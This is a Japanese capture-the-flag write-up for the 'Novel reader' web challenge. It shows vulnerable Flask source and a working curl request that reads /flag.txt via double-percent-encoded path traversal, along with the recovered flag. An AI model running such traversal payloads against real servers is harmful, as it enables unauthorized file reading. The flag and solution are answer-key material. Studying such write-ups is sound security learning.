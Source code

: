 # Novel reader:Web:pts
We have many fun novels for ya...  
[Docker environment](novel-reader_d78366cb079727a6bd3809219df9bc7835d17fd1.txz)  
```
http://3.64.250.135:9000
```

# Solution
URLとソースが配布される。  
アクセスすると`Balance`を払って`Words Balance`を購入して、Novelを読むことのできるサービスのようだ。  
![site.png](site/site.png)  
試しに`Balance: 100`すべて払うと`Words Balance: 11`となり、10:1のレートのようだ。  
ソースを見ると以下であった。  
```python
from flask import *
from urllib.parse import unquote
import os

def readFile(path):
    f = open(path,'r')
    buf = f.read(0x1000)
    f.close()
    return buf

app = Flask(__name__,static_folder='./static')
app.secret_key = 'REDACTED'
indexFile = readFile('index.html')

@app.before_request
def init_session():
    if('credit' not in session):
        session['credit'] = 100
        session['words_balance'] = 1

@app.get('/')
def index():
    return indexFile

@app.get('/api/stats')
def getStats():
    return {'credit': session['credit'], 'words_balance': session['words_balance']}

@app.post('/api/charge')
def buyWord():
    nwords = request.args.get('nwords')
    if(nwords):
        nwords = int(nwords[:10])
        price = nwords * 10
        if(price <= session['credit']):
            session['credit'] -= price
            session['words_balance'] += nwords
            return {'success': True, 'msg': 'Added to your account!'}
        return {'success': False, 'msg': 'Not enough credit.'}, 402
    else:
        return {'success': False, 'msg': 'Missing parameteres.'}, 400

@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}

@app.get('/api/list-public-novels')
def listPublicNovels():
    return os.listdir('./public/')

@app.get('/api/list-private-novels')
def listPrivateNovels():
    return os.listdir('./private/')

if(__name__ == '__main__'):
    app.run('0.0.0.0',port=8000)
```
Dockerfileは以下のようでnginxが噛んでいる。  
```Dockerfile
FROM tiangolo/uwsgi-nginx-flask:python3.11

COPY ./flag.txt /flag.txt
COPY ./stuff /app
```
`/flag.txt`にフラグがあるようだ。  
ファイル読み込み箇所を再度注意して見ると以下であった。  
```python
~~~
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
~~~
```
`unquote`でパーセントエンコーディングを戻して、`public/`から始まっているか確認している。  
`public/`から始まるようにトラバーサルしてやればよい。  
`flag.txt`にはスペースが含まれていないので、`Words Balance`は意識しなくてよい。  
nginxが噛んでいるので、二重でパーセントエンコーディングが必要となる。  
```bash
$ curl -H 'Cookie: session=eyJjcmVkaXQiOjAsIndvcmRzX2JhbGFuY2UiOjExfQ.Za0PlQ._41fKxqQM14l0Afp4vvm1y5-bz4' --path-as-is 'http://3.64.250.135:9000/api/read/public/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fflag.txt'
{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```
flagが書かれていた。  

## MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}
